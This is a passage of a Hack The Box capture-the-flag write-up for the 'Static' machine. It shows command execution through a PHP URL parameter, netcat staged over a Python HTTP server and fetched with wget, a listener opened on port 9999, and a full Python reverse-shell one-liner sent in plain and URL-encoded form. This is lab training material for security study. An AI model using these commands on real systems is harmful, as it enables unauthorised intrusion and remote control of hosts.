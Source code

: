 The exploit has detected a vulnerable configuration. Now we can execute commands via **?a** parameter (Some tries will be needed!).
```console
elpollon@elpollon:~/HTB/Static/exploits$ curl http://localhost/index.php?a=whoami
www-data

Warning: Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
batch mode: /usr/bin/ersatool create|print|revoke CN
```

To get a shell from **pki** I've uploaded the netcat binary to **web** host.

```console
elpollon@elpollon:~/HTB/Static/exploits$ cp /usr/bin/nc .
elpollon@elpollon:~/HTB/Static/exploits$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...

```

From the ssh session I put on listen on port 9999:

```console
www-data@web:/tmp$ wget http://172.30.0.9:9000/nc
--2021-12-08 22:56:30--  http://172.30.0.9:9000/nc
Connecting to 172.30.0.9:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 34952 (34K) [application/octet-stream]
Saving to: ‘nc’

nc                  100%[===================>]  34.13K  94.9KB/s    in 0.4s    

2021-12-08 22:56:32 (94.9 KB/s) - ‘nc’ saved [34952/34952]
www-data@web:/tmp$ chmod +x nc
www-data@web:/tmp$ ./nc -nlvp 9999
listening on [any] 9999 ...

```

The ip of **web** host in **pki**'s network is **192.168.254.2**. I get the shell with this python payload url-encoded:
**python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.2",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**


```
elpollon@elpollon:~/HTB/Static/exploits$ curl http://localhost/index.php?a=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.254.2%22%2C9999%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```
